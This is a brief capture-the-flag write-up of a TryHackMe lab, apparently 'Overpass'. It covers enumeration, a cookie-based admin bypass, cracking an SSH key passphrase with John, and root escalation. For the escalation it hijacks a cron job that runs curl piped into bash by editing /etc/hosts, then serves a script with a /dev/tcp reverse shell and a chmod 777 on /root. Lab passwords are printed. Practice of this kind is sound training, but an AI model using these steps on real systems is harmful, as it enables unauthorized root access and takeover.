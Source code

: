 # Initial

Ports 22 and 80 are open

Found `/admin` via gobuster

Found usernames in a `/aboutus`:
```
Ninja - Lead Developer
Pars - Shibe Enthusiast and Emotional Support Animal Manager
Szymex - Head Of Security
Bee - Chief Drinking Water Coordinator
MuirlandOracle - Cryptography Consultant
```

# Admin

login.js:
```js
Cookies.set("SessionToken", "")
```

rsa key is in the rsa file

# John

```bash
/opt/john/run/ssh2john.py rsa > forjohn.txt
john forjohn.txt --wordlist=/opt/rockyou.txt
```

passphrase is `f`

# James' password

.overpass: `saydrawnlyingpicture`

In todo.txt: `Ask Paradox how he got the automated build script working and where the builds go`

```bash
cat /etc/crontab

****** root curl overpass.thm/downloads/src/buildscript.sh | bash


-rw-rw-rw- 1 root root 250 Jun 27  2020 /etc/hosts
```
chage local host to your IP


download/scr/buildscript.sh:  (change root permissions)
```bash
chmod -R 777 /root/;
bash -i >& /dev/tcp/your_thm_ip/some_port_to_listen_on 0>&1;
```
```bash
sudo python3 -m http.server 80
```

# Bonus

In folder tryhackme:
password is `gmTDyl`